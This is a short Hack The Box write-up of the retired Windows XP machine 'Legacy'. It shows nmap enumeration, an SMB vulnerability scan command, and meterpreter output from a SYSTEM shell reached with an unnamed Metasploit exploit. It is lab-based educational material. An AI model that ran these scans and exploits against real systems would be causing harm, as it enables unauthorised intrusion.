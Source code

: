 ```yaml
---
layout: post
title: Legacy
date: 2020-03-30
author: OutHackThem
comments: true
categories: htb
tags: [windows,htb]
---
```


## Legacy writeup

Hi there, how you doin ?
For a long long time now I've been avoiding Hack the box cause I am sort of an addict for CTFs and I've heard that htb is one of the best playgrounds out there. I was just waiting for a time period where I could just sit down and do this without any distractions and what better time then this COVID-19 pendemic when everyone is quarantined (Hope Everyone survives this and be well)
Thought I'd start with retired easy machines which would get me warmed up so here we are Legacy writeup.


![main]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Legacy/cover.png)


Let's do a quick nmap all ports

```bash
PORT     STATE  SERVICE       REASON          VERSION
139/tcp  open   netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  syn-ack ttl 127 Windows XP microsoft-ds
3389/tcp closed ms-wbt-server reset ttl 127
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h32m49s, deviation: 2h07m16s, median: 4d23h02m49s
| nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:4f:ab (VMware)
| Names:
|   LEGACY<00>           Flags: <unique><active>
|   HTB<00>              Flags: <group><active>
|   LEGACY<20>           Flags: <unique><active>
|   HTB<1e>              Flags: <group><active>
|   HTB<1d>              Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   00 50 56 b9 4f ab 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 40600/tcp): CLEAN (Timeout)
|   Check 2 (port 13996/tcp): CLEAN (Timeout)
|   Check 3 (port 50902/udp): CLEAN (Timeout)
|   Check 4 (port 38560/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-04-04T08:00:18+03:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
|_smb2-time: Protocol negotiation failed (SMB2)

```

<br>

### Enumeration

- I ran another nmap scan `nmap -p 139,445 --script smb-vuln* 10.10.10.4` It gave me the following result sayign the SMBv1 is vulnerable to remote code execution

![smb-nmap-output]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Legacy/smb.png)


### Exploitation

Quick google search and I found out that msf can be used to gain a shell. Used the following exploit and got an initial shell. 
After I ran getuid found out I had been dropped on to the NT Authority shell.



![shell]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Legacy/shell.png)



```bash
meterpreter > sysinfo
Computer        : LEGACY
OS              : Windows XP (5.1 Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > ls
Listing: C:\Documents and Settings\Administrator\Desktop
========================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100444/r--r--r--  32    fil   2017-03-16 02:18:19 -0400  root.txt

```
That's all pretty simple